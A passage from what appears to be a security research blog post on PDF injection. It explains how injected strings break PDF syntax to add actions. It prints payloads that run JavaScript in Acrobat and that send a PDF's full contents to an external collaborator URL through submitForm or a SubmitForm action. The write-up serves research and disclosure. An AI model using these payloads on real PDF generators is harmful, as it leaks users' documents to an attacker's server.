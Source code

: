 As you can clearly see, the injection string is closing the text boundary with a closing parenthesis, which leaves an existing closing parenthesis that causes the PDF to be rendered incorrectly:

![Screenshot showing an error dialog when loading the PDF](https://portswigger.net/cms/images/34/f4/3ed2-article-screenshot-showing-damaged-pdf.png)

Great, so I could break the rendering of the PDF, now what? I needed to come up with an injection that called some JavaScript - the alert(1) of PDF injection.

Just like how XSS vectors depend on the browser's parsing, PDF injection exploitability can depend on the PDF renderer. I decided to start by targeting Acrobat because I thought the vectors were less likely to work in Chrome. Two things I noticed: 1) You could inject additional annotation actions and 2) if you repair the existing closing parenthesis then the PDF would render. After some experimentation, I came up with a nice payload that injected an additional annotation action, executed JavaScript, and repaired the closing parenthesis:`/blah)>>/A<</S/JavaScript/JS(app.alert(1);)/Type/Action>>/>>(`

First I break out of the parenthesis, then break out of the dictionary using >> before starting a new annotation dictionary. The /S/JavaScript makes the annotation JavaScript-based and the /JS is where the JavaScript is stored. Inside the parentheses is our actual JavaScript. Note that you don't have to escape the parentheses if they're balanced. Finally, I add the type of annotation, finish the dictionary, and repair the closing parenthesis. This was so cool; I could craft an injection that executed JavaScript but so what, right? You can execute JavaScript but you don't have access to the DOM, so you can't read cookies. Then James popped up and suggested stealing the contents of the PDF from the injection. I started looking at ways to get the contents of a PDF. In Acrobat, I discovered that you can use JavaScript to submit forms without any user interaction! Looking at the spec for the JavaScript API, it was pretty straightforward to modify the base injection and add some JavaScript that would send the entire contents of the PDF code to an external server in a POST request:`/blah)>>/A<</S/JavaScript/JS(app.alert(1);`\
`this.submitForm({`\
`cURL: 'https://your-id.burpcollaborator.net',cSubmitAs: 'PDF'}))`\
`/Type/Action>>/>>(`

The alert is not needed; I just added it to prove the injection was executing JavaScript.

Next, just for fun, I looked at stealing the contents of the PDF without using JavaScript. From the PDF specification, I found out that you can use an action called SubmitForm. I used this in the past when I constructed a PDF for a scan check in Burp Suite. It does exactly what the name implies. It also has a Flags entry in the dictionary to control what is submitted. The Flags dictionary key accepts a single integer value, but each individual setting is controlled by a binary bit. A good way to work with these settings is using the new binary literals in ES6. The binary literal should be 14 bits long because there are 14 flags in total. In the following example, all of the settings are disabled:`0b00000000000000`

To set a flag, you first need to look up its bit position (table 237 of the [PDF specification](https://www.adobe.com/content/dam/acom/en/devnet/pdf/pdfs/PDF32000\_2008.pdf)). In this case, we want to set the SubmitPDF flag. As this is controlled by the 9th bit, you just need to count 9 bits from the right:`0b00000100000000`

If you evaluate this with JavaScript, this results in the decimal value 256. In other words, setting the Flags entry to 256 will enable the SubmitPDF flag, which causes the contents of the PDF to be sent when submitting the form. All we need to do is use the base injection we created earlier and modify it to call the SubmitForm action instead of JavaScript:`/blah)>>/A<</S/SubmitForm/Flags 256/F(`\
`https://your-id.burpcollaborator.net)`\
`/Type/Action>>/>>(`
